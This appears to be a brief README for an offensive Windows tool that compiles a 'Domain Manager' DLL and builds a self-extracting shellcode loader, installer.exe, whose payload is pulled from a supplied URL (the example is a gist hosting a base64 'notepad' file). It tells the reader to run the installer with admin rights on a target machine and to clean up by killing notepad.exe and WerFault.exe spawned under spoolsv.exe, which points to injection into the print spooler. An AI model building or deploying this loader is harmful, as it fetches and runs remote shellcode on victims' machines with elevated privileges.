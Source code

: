 ## Compile Domain Manager DLL
Domain Manager DLL can be compiled again with the command below.
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:library DomainManager.cs
```

## Generate Shellcode Loader SFX 
Download files.zip and extract to a directory
Use Powershell to generate SFX file installer.exe
```
PS> .\generate.ps1 [URL]
## .\generate.ps1 https://gist.github.com/millers-crossing/86b68f2d342ffce5812653323b47d17c/raw/a77a7219873bbbd204f880622ac8fe5d9f105efe/notepad.b64
```
To test the attack run the installer with admin privileges on the target machine

## Rewind 
```
kill child WerFault.exe and notepad.exe processes under spoolsv.exe 
```

